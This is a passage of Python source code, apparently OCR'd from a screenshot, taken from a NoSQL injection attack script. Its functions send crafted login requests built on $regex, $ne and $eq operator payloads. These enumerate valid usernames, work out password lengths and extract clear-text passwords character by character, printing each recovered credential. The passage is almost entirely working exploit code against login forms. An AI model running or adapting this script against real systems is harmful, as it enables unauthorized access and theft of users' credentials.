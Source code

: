 ```python
            data = 'username[$eq]=' + user + '&password[$regex]=^.{' + str(length) + '}$&login=login'
            if self.make_request(data) and length:
                return length

    def find_users(self):
        auxiliary_list = []
        users_length = self.discover_users_length()
        print(f"\n[+] User/s length: {', '.join(users_length)}")

        first_iteration = True
        while True:
            try:
                for char in self.chars:
                    if first_iteration:
                        data = 'username[$regex]=^' + char + '&password[$ne]=dusk&login=login'
                    else:
                        payload = auxiliary_list[0] + char
                        data = 'username[$regex]=^' + payload + '&password[$ne]=dusk&login=login'

                    if self.make_request(data):
                        if first_iteration:
                            auxiliary_list.append(char)
                            continue
                        else:
                            auxiliary_list.pop(0)
                            auxiliary_list.insert(0, payload)

                        if max(map(int, users_length)) <= len(payload):
                            auxiliary_list.pop(0)
                            self.valid_users.append(payload)

                        break

                if first_iteration:
                    print(f"\n[+] Total users: {len(auxiliary_list)}")
                    first_iteration = False
        
            except IndexError:
                print(f"\n[+] Discovered users: {', '.join(self.valid_users)}")
                break

    def find_passwords(self):
        for user in self.valid_users:
            payload = ""
            password_length = self.discover_password_length(user)
            print(f"\n[+] Targeting user: {user}")
            print(f"\n\t[>] Password length: {password_length}")
            print(f"\n\t[>] Clear-text password: ", end="")

            while True:
                for char in self.chars:
                    data = 'username[$eq]=' + user + '&password[$regex]=^' + payload + char + '&login=login'
                    if self.make_request(data):
                        payload += char
                        print(char, end="", flush=True)
                        break
                if password_length == len(payload):
                    print() # \n
                    break
        
def set_arguments():
```
